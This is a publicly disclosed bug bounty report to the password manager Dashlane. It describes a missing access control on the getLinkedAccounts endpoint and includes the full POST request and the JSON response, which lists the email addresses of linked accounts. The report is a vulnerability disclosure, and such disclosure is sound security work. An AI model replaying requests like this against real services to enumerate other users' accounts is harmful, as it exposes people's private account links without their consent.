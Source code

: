 # Missing Access Control(IDOR) To Know LinkedAccounts 

## Report Details
- **Report ID**: 152407
- **URL**: https://hackerone.com/reports/152407
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-07-20T03:39:42.288Z
- **Disclosed**: 2017-06-26T09:36:27.692Z

## Reporter
- **Username**: kiraak-boy
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: dashlane

## Vulnerability Information
Hello Team,

While Digging your Application I Came to Endpoint Where I Was Able to Check Whether Email is been Used in Multiple Account's or not , And Also Email's Are Getting Leaked .

You have Feature to Enter Email To get Token :

{F105969} 

As you can see from the above Screenshot , I'm Logged in as (arbaz.owasp@gmail.com) and i put the Email (pentester.owasp@gmail.com) For Getting Code's Which Means I Have Linked my Account into Another Account.

---------------------------------------------------------------------------------------------------------------------------------------
Your Endpoint Request :

POST /1/account/getLinkedAccounts HTTP/1.1
Host: www.dashlane.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: https://www.dashlane.com/business/try
Content-Length: 31
Cookie: 
Connection: close

email=pentester.owasp@gmail.com

----------------------------------------------------------------------------------------------------------------
Response :

{"code":200,"message":"OK","content":{"logins":["pentester.owasp@gmail.com","arbaz.owasp@gmail.com","hacker.arbaz@gmail.com"]}}

------------------------------------------------------------------------------------------------------------------
From the Above Response You Can See into Which Which Accounts , Email Have been Linked.  
 
{F105970}

Thanks!

Best,
Arbaz


## Attachments
- idor.PNG
- idor1.png
